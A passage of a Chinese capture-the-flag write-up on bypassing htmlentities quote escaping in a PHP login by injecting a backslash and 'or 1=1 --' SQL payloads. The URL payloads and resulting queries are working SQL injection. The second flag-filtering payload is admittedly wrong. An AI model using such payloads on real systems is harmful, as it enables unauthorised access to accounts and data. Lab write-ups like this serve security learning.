   ```php
    $str2 = htmlentities($str1, ENT_QUOTES); // Converts double and single quotes
    echo $str1;
    echo PHP_EOL;
    echo $str2;
    /*
        Jane & 'Tarzan'
        Jane &amp; &#039;Tarzan&#039;
    */
  ?>
  ```
也就是说，所有的利用单双引号注入的方法在这里都是不行的。看php代码中的查询语句，是字符型的注入类型（嵌入的变量两边都被引号包围）。
```php
$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''.$password.'\';';
```
需要构造 \$username 和 \$password 来绕过包围的引号的限制。尝试（其中%20是URL编码，即空格）
```url
?username=\&password=or%201=1%20--+
```
因为这样会构造出如下的查询语句
```sql
SELECT * FROM users WHERE name='\' AND pass='or 1=1 --';
```
注意到这里的条件是 `name` = `\' AND pass=` or `1=1` ，由于 `1=1` ，这个条件是恒真的；而后面的 `--` 将其后的内容注释掉了。也就是说，这个查询等价于
```sql
SELECT * FROM users
```
![sqli2](pic/sqli2.png)

似乎是有效的，返回了用户名和密码。但是这些信息似乎没什么用。

由
```php
if(!$result || mysql_num_rows($result) < 1)
```
估计users这个表应该还挺大的，但是每次只能显示一个用户（也即一行），或许需要筛选一下？

猜用户名应该是flag（或者admin），构造如下（及对应的查询语句和等价语句）（其中%27是URL编码，即 ' （单引号））
```url
?username=\&password=or%201=1%20and%20%27username=%27flag%27%27%20--+
```
```sql
SELECT * FROM users WHERE name='\' AND pass='or 1=1 and name='flag'--';
```
```sql
SELECT * FROM users WHERE name='flag'
```
很可惜不行，或许是构造错了？（确实是错了，sql里and的优先级高于or）

